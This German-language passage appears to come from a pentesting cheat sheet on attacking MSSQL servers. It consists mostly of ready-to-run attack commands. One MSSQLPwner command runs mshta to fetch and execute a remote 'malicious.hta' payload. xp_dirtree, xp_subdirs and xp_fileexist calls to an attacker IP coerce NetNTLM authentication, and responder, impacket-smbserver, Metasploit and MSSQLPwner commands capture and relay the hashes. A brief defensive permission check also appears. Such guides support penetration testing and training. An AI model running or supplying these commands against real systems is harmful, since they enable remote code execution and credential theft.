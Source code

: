 ```shell
# Executing custom assembly on the current server with windows authentication and executing hostname command on the SRV01 linked server
mssqlpwner corp.com/user:lab@192.168.1.65 -windows-auth -link-name SRV01 custom-asm hostname

# Executing the hostname command using stored procedures on the linked SRV01 server
mssqlpwner corp.com/user:lab@192.168.1.65 -windows-auth -link-name SRV01 exec hostname

# Executing the hostname command using stored procedures on the linked SRV01 server with sp_oacreate method
mssqlpwner corp.com/user:lab@192.168.1.65 -windows-auth -link-name SRV01 exec "cmd /c mshta http://192.168.45.250/malicious.hta" -command-execution-method sp_oacreate
```
### NetNTLM-Hash stehlen / Relay-Angriff

Sie sollten einen **SMB-Server** starten, um den Hash zu erfassen, der bei der Authentifizierung verwendet wird (`impacket-smbserver` oder `responder` zum Beispiel).
```bash
xp_dirtree '\\<attacker_IP>\any\thing'
exec master.dbo.xp_dirtree '\\<attacker_IP>\any\thing'
EXEC master..xp_subdirs '\\<attacker_IP>\anything\'
EXEC master..xp_fileexist '\\<attacker_IP>\anything\'

# Capture hash
sudo responder -I tun0
sudo impacket-smbserver share ./ -smb2support
msf> use auxiliary/admin/mssql/mssql_ntlm_stealer
```
[MSSQLPwner](https://github.com/ScorpionesLabs/MSSqlPwner)
```shell
# Issuing NTLM relay attack on the SRV01 server
mssqlpwner corp.com/user:lab@192.168.1.65 -windows-auth -link-name SRV01 ntlm-relay 192.168.45.250

# Issuing NTLM relay attack on chain ID 2e9a3696-d8c2-4edd-9bcc-2908414eeb25
mssqlpwner corp.com/user:lab@192.168.1.65 -windows-auth -chain-id 2e9a3696-d8c2-4edd-9bcc-2908414eeb25 ntlm-relay 192.168.45.250

# Issuing NTLM relay attack on the local server with custom command
mssqlpwner corp.com/user:lab@192.168.1.65 -windows-auth ntlm-relay 192.168.45.250
```
{% hint style="warning" %}
Sie können überprüfen, wer (außer Sysadmins) Berechtigungen hat, um diese MSSQL-Funktionen auszuführen mit:
```sql
Use master;
EXEC sp_helprotect 'xp_dirtree';
EXEC sp_helprotect 'xp_subdirs';
EXEC sp_helprotect 'xp_fileexist';
```
{% endhint %}

Mit Tools wie **responder** oder **Inveigh** ist es möglich, den **NetNTLM-Hash** zu **stehlen**.\
Sie können sehen, wie man diese Tools verwendet in:
